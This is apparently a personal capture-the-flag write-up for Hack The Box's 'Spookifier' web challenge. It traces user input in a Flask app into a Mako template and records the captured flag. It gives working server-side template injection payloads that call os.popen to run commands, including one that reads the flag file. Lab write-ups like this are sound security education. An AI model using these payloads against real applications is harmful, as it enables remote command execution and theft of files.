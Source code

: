 202210251447
Status:: #ctf
Tags: [[hack_the_boo]], [[SSTI]]

# hack_the_boo_spookifier
Platform: *hackthebox*
event: *hack the boo*
type: *web*
task: *There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?*
flag: **HTB{t3mpl4t3_1nj3ct10n_1s_$p00ky!!}**

# steps

### File tree of challenge
```
.
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
├── Dockerfile
└── flag.txt

```

### Endpoints
- `/`
### Logic
Program reads name from `text` argument in URL and calls `spookify` with the name:
```python
@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

file `utils.py` also contains:
- dictionaries for leter substitution, but `font4` seems to keep leters unchanged.
- function to generate string from `mako` template:
```python
def generate_render(converted_fonts):
result = '''
	<tr>
		<td>{0}</td>
       </tr>
       
	<tr>
       	<td>{1}</td>
       </tr>
       
	<tr>
       	<td>{2}</td>
       </tr>
       
	<tr>
       	<td>{3}</td>
    </tr>
	'''.format(*converted_fonts)
return Template(result).render()
```

### Exploiting
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md) has example of SSTI for mako. 

Trying RCE with `system` function
`${self.module.cache.util.os.system("id").read()}`
which returns `Internal server error`

Attempt to use `popen` function:
`${self.module.cache.util.os.popen("id").read()}`
and it works as intented `uid=0(root) gid=0(root) groups=1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)`

It's time to get the flag:
`${self.module.cache.util.os.popen("cat ../flag.txt").read()}`




